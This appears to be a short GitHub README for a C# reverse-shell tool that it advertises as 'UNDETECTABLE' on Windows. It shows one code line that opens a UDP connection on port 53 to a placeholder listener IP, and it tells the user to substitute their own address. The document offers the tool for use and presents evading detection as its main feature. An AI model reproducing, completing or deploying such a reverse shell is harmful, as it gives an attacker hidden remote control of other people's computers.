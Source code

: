 # reverse-shell-csharp
UNDETECTABLE Reverse Shell with C# by Windows!
<br><br><br>
Change the listener IP here
<code>
			try{
				udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!
</code>
